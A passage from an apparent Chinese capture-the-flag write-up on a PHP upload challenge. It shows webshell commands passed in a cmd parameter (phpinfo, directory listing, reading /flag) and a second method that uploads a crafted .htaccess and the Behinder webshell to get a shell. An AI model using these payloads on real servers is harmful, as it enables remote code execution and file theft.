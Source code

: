 8.读文件<br>[http://122.112.248.222:20003/upload/e6a96d9444d3a938319f35616e5d1add/1.png](http://122.112.248.222:20003/upload/e6a96d9444d3a938319f35616e5d1add/1.png)<br>
成功上传，解析

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0160881ab75b83d657.png)

9.读phpinfo

/upload/e6a96d9444d3a938319f35616e5d1add/1.png?cmd=phpinfo();

[![](https://p0.ssl.qhimg.com/t010bb103b2358c23f6.png)](https://p0.ssl.qhimg.com/t010bb103b2358c23f6.png)

10.扫目录<br>
/upload/e6a96d9444d3a938319f35616e5d1add/1.png?cmd=var_dump(scandir(%22/%22));

[![](https://p3.ssl.qhimg.com/t01c2fbc0529682f30f.png)](https://p3.ssl.qhimg.com/t01c2fbc0529682f30f.png)

/upload/e6a96d9444d3a938319f35616e5d1add/1.png?cmd=readfile(%22/flag%22);

[![](https://p5.ssl.qhimg.com/t01cc055be2d331a663.png)](https://p5.ssl.qhimg.com/t01cc055be2d331a663.png)



## 方法2:

冰蝎：地址：[https://github.com/rebeyond/Behinder](https://github.com/rebeyond/Behinder)<br>
首先访问站点

[![](https://p2.ssl.qhimg.com/t01a498f7d1ecb5c18c.png)](https://p2.ssl.qhimg.com/t01a498f7d1ecb5c18c.png)

真nm嚣张，干你走起

因为配置文件中使用&lt;directory&gt;禁止了upload沙盒解析，所以需要上传.htaccess，随便选择一个文件，通过Burp抓包修改参数如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01be630283083c8d41.png)

解释一下，将文件名和文件内容修改为.htaccess还不够，还需要将.htaccess放至站点目录之下

[![](https://p4.ssl.qhimg.com/t0137c3af364459368b.png)](https://p4.ssl.qhimg.com/t0137c3af364459368b.png)

之后上传冰蝎马（当然期间还上传了一句话和大马）

[![](https://p5.ssl.qhimg.com/t01ebad0fe0747e2908.png)](https://p5.ssl.qhimg.com/t01ebad0fe0747e2908.png)

直接连你，密码为rebeyond，成功getshell

在根目录下找到flag，flag为 flag`{`BNjmiWsBgTW4fsLoDgWLvgnfqk1CI3Nx`}`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t011523dc70be83273f.png)

